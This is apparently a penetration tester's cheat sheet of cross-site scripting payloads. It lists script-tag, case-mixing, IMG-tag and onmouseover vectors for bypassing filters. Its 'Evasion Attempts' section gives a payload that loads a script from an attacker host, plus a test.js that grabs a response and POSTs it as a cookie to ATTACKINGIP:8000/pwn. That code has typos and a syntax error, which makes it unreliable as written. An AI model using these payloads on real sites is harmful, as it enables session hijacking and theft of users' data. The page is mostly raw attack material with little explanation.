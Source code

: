 # Examples



This is a good list:

[https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester](https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester)

### No security <a id="no-security"></a>

`<script>alert(1)</script>`

Imagine that the server sanitizes `<script>`. To bypass that we can use:  
`<SCrIpt>alert(2)</ScRiPt>`  
`<script type=text/javascript>alert(2)</script>`

#### Using the IMG-tag <a id="using-the-img-tag"></a>

```text
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```

#### Onmouseover <a id="onmouseover"></a>

```text
<a onmouseover="alert(2)">d</a>
```

#### Evasion Attempts <a id="evasion-attempts"></a>

```text
<Img src="x/><script>eval(String.fromCharCode(document.write('<script src="http://ATTACKINGIP/test.js"></script>');))</script>">


test.js
var req1 = new XMLHttpRequest();
req1.open('GET','http://localhost:8000/vasrsasd',false);
req1.send();
var response = req1.responseText;
var req2 = new XMLHttpRequest();
var params = "cookie=" + encdoeURIComponenet(response);
req2.open('POST', 'http://ATTACKINGIP:8000/pwn', true;
req2.setRequestHeader('Content-Type', 'application/x-ww-form-urlencoded');
req2.send(params);


should create url encodeded data file, can grab cookie from
```

